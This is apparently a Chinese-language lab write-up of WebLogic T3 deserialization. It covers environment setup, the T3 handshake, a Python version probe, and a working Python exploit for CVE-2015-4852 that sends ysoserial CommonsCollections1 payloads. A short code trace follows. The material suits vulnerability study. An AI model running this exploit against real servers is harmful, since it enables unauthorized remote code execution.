







## 环境配置

工具：https://github.com/QAX-A-Team/WeblogicEnvironment

jdk地址：https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html

weblogic下载地址：https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html

下载并配置好依赖后，脚本一键运行，我的本机为macos m2架构

> 需要修改Dockerfile
>
> ```
> # 基础镜像
> FROM --platform=linux/amd64 centos
> # 参数
> ARG JDK_PKG
> ARG WEBLOGIC_JAR
> # 解决libnsl包丢失的问题
> # RUN yum -y install libnsl
> ```



## T3协议

T3 协议是 Weblogic RMI 调用时的通信协议

RMI 即远程方法调用，我们可以远程调用另一台 JVM虚拟机中对象上的方法，且数据传输过程中是序列化进行传输的

Java RMI 的基础通信协议是 JRMP ，但是也支持开发其他的协议来优化 RMI 的传输，这里的 Weblogic 的 T3 协议就是其优化版本，相比于JRMP协议多了一些特性。以下是T3协议的特点：

1. 服务端可以持续追踪监控客户端是否存活（心跳机制），通常心跳的间隔为60秒，服务端在超过240秒未收到心跳即判定与客户端的连接丢失。
2. 通过建立一次连接可以将全部数据包传输完成，优化了数据包大小和网络消耗。

### 请求测试

```python
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n" #请求包的头
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "10.43.41.73"
    port = 7001

    T3Test(ip,port)
```

返回：

```
HELO:10.3.6.0.false
AS:2048
HL:19
```

HELO后面的内容则是被攻击方的weblogic版本号，在发送请求包头后会进行一个返回weblogic的版本号。

在T3协议里面传输的都是序列化数据，而传输中的数据分为七部分内容。第一部分为协议头。即`t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n`这串数据。



对于T3协议，`ac ed 00 05`是反序列化标志，而在 T3 协议中每个序列化数据包前面都有`fe 01 00 00`，所以 T3 的序列化标志为`fe 01 00 00 ac ed 00 05`

第二到第七部分内容，开头都是`ac ed 00 05`，说明这些都是序列化的数据。只要把其中一部分替换成我们的序列化数据就可以了，有两种替换方式

1. 将weblogic发送的JAVA序列化数据的第二部分以及之后的JAVA序列化数据的任意一个替换为恶意的序列化数据。
2. 将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接。



## CVE-2015-4852

exp：

```python
import struct # 负责大小端的转换
import subprocess
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java','-jar',YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic "+"".join(match))
    else:
        print("Not Weblogic")
        #return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header  +desflag+  payload
    payload = struct.pack(">I",len(payload)) + payload[4:]
    sock.send(payload)

if __name__ == "__main__":
    ip = "10.43.41.73"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "touch /tmp/CVE-2015-4852"
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)
```

这个poc本质就是把ysoserial生成的payload变成t3协议里的数据格式

- 数据包长度包括了自身长度和其他三部分数据包长度，所以需要先占位，计算出长度后再替换进去
- T3协议头是固定的，直接硬编码进去就行
- 反序列化标志+数据=weblogic反序列化标志+ysoserial生成的序列化数据



攻击效果：



### 流程分析

Weblogic处理数据时，会对数据按照序列化头部标识进行分片，并逐个反序列化

我们将断点放在`weblogic.rjvm.InboundMsgAbbrev#readObject`



里面调用了`InboundMsgAbbrev.ServerChannelInputStream#readObject`方法，查看一下



可以发现`ServerChannelInputStream`是一个内部类，该类继承`ObjectInputStream`类，并对`resolveClass`进行了重写。不过仔细看逻辑可以发现仍然调用的是父类的方法，且没有任何过滤，因此我们只需要找一条存在的gadget即可，这里使用cc1。


参考：

http://moonflower.fun/index.php/2022/01/30/251/

https://xz.aliyun.com/t/10365

https://github.com/gobysec/Weblogic/tree/main

https://github.com/vulhub/vulhub/tree/master/weblogic

https://fe1w0.github.io/2021/03/14/Weblogic/

https://xz.aliyun.com/t/12397

https://xz.aliyun.com/t/10563

https://y4er.com/posts/weblogic-cve-2016-0638/

https://www.cnblogs.com/nice0e3/p/14201884.html

https://xz.aliyun.com/t/8443